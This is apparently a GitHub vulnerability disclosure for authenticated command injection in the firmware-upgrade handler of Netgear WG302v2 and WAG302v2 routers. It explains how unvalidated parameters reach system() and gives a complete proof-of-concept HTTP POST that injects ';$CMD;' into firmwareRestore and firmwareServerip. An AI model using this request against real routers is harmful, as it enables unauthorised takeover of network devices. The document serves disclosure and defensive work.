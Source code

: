 # upgrade_handler Command Injection

Netgear WG302v2 and WAG302v2 are vulnerable to an authenticated OS command injection vulnerability via the Upgrade Firmware functionality in the Web interface, using the metacharacters in the ngadmin.cgi?action=upgrade_handler firmwareRestore or firmwareServerip parameter.

## Affected Versions

* [WG302v2](https://www.netgear.com/support/product/wg302v2#download)
  * [5.2.9](https://www.downloads.netgear.com/files/GDC/WG302V2/WG302v2%20Firmware%20Version%205.2.9.zip)
* [WAG302v2](https://www.netgear.com/support/product/wag302v2#download)
  * [5.1.19](https://www.downloads.netgear.com/files/GDC/WAG302V2/WAG302v2%20Firmware%20Version%205.1.19%20(North%20America).zip)

## The Vulnerability

In the upgrade_handler function, the firmwareRestore and firmwareServerip are read from user inputs, and send to tftp function (FUN_00031ad0).

![](./upgrade_handler.png)

In the tftp function, the two parameters are formatted in a string, which is used in system(). However, the parameters' values are not validated. Therefore an attacker can craft inputs starting with metacharacters like ';' to inject arbitary command.

![](./tftp.png)

## PoC

Start the router and authenticate as admin
Input the following payload into firmwareRestore or to perform command injection:

```
firmware-upgrade-file=up&firmwareRestore=;$CMD;&firmwareServerip=;$CMD;
```

Full PoC

```
POST /ngadmin.cgi?action=upgrade_handler HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 114
Cache-Control: max-age=0
Origin: http://localhost
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Xxxxxxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost/ngadmin.cgi?action=up
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: sessionHTTP=PENcqbtRRuvmuZfPZnzuUddVIEAPADBp; clickedFolderFrameless=43%5E

firmware-upgrade-file=up&firmwareRestore=;$CMD;&firmwareServerip=;$CMD;
```

## Timeline
